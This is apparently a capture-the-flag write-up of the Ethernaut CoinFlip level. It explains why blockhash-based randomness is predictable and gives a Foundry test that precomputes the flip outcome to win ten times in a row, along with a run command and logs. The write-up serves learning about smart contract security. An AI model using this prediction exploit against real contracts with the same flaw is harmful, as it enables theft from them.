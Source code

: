 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)

# What You're Supposed to Do?

in `03-CoinFlip` Challenge, You Should Try To find a Way to Guess Correctly What Will be The Output of Coin Flip and You have to do it `10` times in a Row.

`03-CoinFlip` Challenge Link: [https://ethernaut.openzeppelin.com/level/0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF](https://ethernaut.openzeppelin.com/level/0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF)

# How did i Complete This Challenge?

So First We Should Understand How the Coin Flip Works:

```javascript
    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
```

We Get Random Number With Decremented Current `block.number` Value by 1 and then hash it with `blockhash`, then convert returned `bytes32` to `uint256` and Store it to `blockValue` variable.

then We Set `lastHash` variable value to `blockValue`.

Then We Divide `blockValue` to `57896044618658097711785492504343953926634992332820282019728792003956564819968` and then Store it to a variable named as `coinFlip`.

Then We Check if Value of `coinFlip` is Equal to `1` or not, Returned Value is an Boolean Value Which is Stored in a variable named `side`.

Then We Check if `side` Boolean Value is Equal to the `_guess` Boolean Value Which We Passed as Parameter to `flip` function. if is `true`, then We Increment the `consecutiveWins` by `1` and then return `true` , otherwise we set the `consecutiveWins` to 0 (even if consecutiveWins current value is 9) and return `false`.

also if You Guessed Coin Flip Once Correctly, You Cannot Call `flip` function right after it because We have a if Statement that Checks `if (lastHash == blockValue) {revert();}`.

As We Know the block attributes are Bad source of Randomness, Because the Value of it is Public to Everyone on Blockchain and Can Be guessed, so Basically it's Not a Random Number When it's Guessable.

This is The Test i Wrote Which Allows You To Guess the Output of the CoinFlip 10 times in a Row Correctly Without Losing One time (basically setting `consecutiveWins` back to 0).

It's Just an While Loop That does the Same thing as the `flip` function but tries it with different `block.number`s and Checks if the CoinFlip Guess Was Right before calling the actual `flip` function.

```javascript
    function testRandomNumberIsPredictable() external {
        vm.startPrank(attacker);
        while (consecutiveWins < 10) {
            console2.log("Current Consecutive Wins: ", consecutiveWins);
            uint256 blockValue = uint256(blockhash(block.number - 1));

            if (lastHash == blockValue) {
                revert();
            }

            lastHash = blockValue;
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;

            if (side == _guess) {
                bool isTrue = coinFlipContract.flip(_guess);
                if (isTrue) {
                    consecutiveWins++;
                    vm.roll(block.number + increment);
                    increment++;
                }
            } else if (side != _guess) {
                _guess = !_guess;
                vm.roll(block.number + increment);
                increment++;
            }
        }
        vm.stopPrank();
        console2.log("You WON! Current Consecutive Wins: ", consecutiveWins);
    }
```


You Can Run this Test in Your Terminal: (it's Required to Have [Foundry](https://book.getfoundry.sh/) Installed)

```javascript
    forge test --match-test testRandomNumberIsPredictable -vvvv
```

Take A look At the `Logs`, To See How Many Tries it Took the Get `10` consecutiveWins.

```javascript

    // My Current Run Logs, Looks Like This:

    Logs:
        Current Consecutive Wins:  0
        Current Consecutive Wins:  1
        Current Consecutive Wins:  1
        Current Consecutive Wins:  1
        Current Consecutive Wins:  1
        Current Consecutive Wins:  1
        Current Consecutive Wins:  2
        Current Consecutive Wins:  2
        Current Consecutive Wins:  3
        Current Consecutive Wins:  3
        Current Consecutive Wins:  3
        Current Consecutive Wins:  3
        Current Consecutive Wins:  4
        Current Consecutive Wins:  5
        Current Consecutive Wins:  6
        Current Consecutive Wins:  7
        Current Consecutive Wins:  8
        Current Consecutive Wins:  9
        You WON! Current Consecutive Wins:  10

```

it Took `19` Loops, To Win. What This While Loop Did it sets new `block.number` by Incrementing the Current `block.number` with `increment` variable value, everytime the guess for the Coin, Turns out to be Wrong. meaning `if (side != _guess)`.
